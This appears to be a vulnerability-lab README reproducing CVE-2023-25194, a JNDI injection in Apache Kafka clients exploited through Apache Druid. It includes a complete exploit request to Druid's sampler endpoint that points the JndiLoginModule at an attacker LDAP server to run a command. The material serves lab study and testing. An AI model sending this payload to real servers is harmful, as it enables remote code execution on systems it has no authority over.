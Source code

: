 # Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing. Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the `sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`. It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

Because this issue exists in a Java library, we have to find a real world software that is using the kafka-clients.

This software is Apache Druid, which is depended on kafka-clients to connect to one of its datasources. This guide is demonstrates how to exploit CVE-2023-25194 in the Apache Druid server.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## Vulnerable Environment

Execute following command to start a Apache Druid server 25.0.0 which is depended on kafka-clients 3.3.1:

```
docker compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

For vulnerability exploitation, you can use [Java Chains](https://github.com/vulhub/java-chains). First, follow the [Quick Start](https://java-chains.vulhub.org/docs/guide) guide to set up Java Chains. Then, refer to the [JNDI Basic Exploitation Guide](https://java-chains.vulhub.org/docs/module/jndi#jndibasicpayload) and following screenshot to configure the command `id > /tmp/success`, generate a JNDI LDAP URL Payload that will be used in the attack.

![](1.png)

Paste the evil LDAP url into following request and send it:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1405

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://java-chains:50389/x\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

As you can see, `id > /tmp/success` was executed successfully:

![](3.png)
